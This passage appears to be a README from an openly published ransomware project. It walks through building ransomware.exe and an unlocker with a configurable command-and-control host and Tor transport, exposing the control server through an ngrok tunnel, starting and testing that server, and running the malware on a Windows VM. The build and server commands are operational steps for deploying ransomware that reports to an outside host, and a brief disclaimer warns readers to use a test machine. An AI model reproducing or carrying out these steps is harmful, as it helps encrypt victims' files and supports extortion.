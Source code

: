 Example:

`make -e USE_TOR=true SERVER_HOST=mydomain.com SERVER_PORT=80 GOOS=darwin`

The `SERVER_` variables above only apply to the malware. The server has a flag `--port` that you can use to change the port that it will listen on.

> DON'T RUN ransomware.exe ON YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you accidentally encrypt all your disks!

## 👉 Step by Step Demo and How it Works ☠️

For this demo I'll use two machines, my personal linux machine and a windows 10 VM.

For the sake of simplicity, I have a folder mapped to the VM, so I can compile from my linux and copy to the vm.

In this demo we will use the [Ngrok](https://ngrok.com) tool, this will allow us to expose our server using a domain, but you can use your own domain or ip address if you want. We are also going to enable the Tor transport, so `.onion` domains will work without problems.

First of all lets start our external domain:

```bash
ngrok http 8080
```

This command will give us a url like ` http://2af7161c.ngrok.io`. Keep this command running otherwise the malware won't reach our server.

Let's compile the binaries (remember to replace the domain):

```bash
make -e SERVER_HOST=2af7161c.ngrok.io SERVER_PORT=80 USE_TOR=true
```

The `SERVER_PORT` needs to be `80` in this case, since ngrok redirects `2af7161c.ngrok.io:80` to your local server port `8080`.

After build, a binary called `ransomware.exe`, and `unlocker.exe` along with a folder called `server` will be generated in the bin folder. The execution of `ransomware.exe` and `unlocker.exe` (even if you use a diferent GOOS variable during compilation) is locked to windows machines only.

Enter the server directory from another terminal and start it:

```bash
cd bin/server && ./server --port 8080
```

To make sure that it is working correctly, make a http request to `http://2af7161c.ngrok.io`:

```bash
curl http://2af7161c.ngrok.io
```

If you see a `OK` and some logs in the server output you are ready to go.

Move the `ransomware.exe` and `unlocker.exe` to the VM along with some dummy files to test the malware. You can take a look at [cmd/common.go] to see some configuration options like file extensions to match, directories to scan, skipped folders, max size to match a file among others.
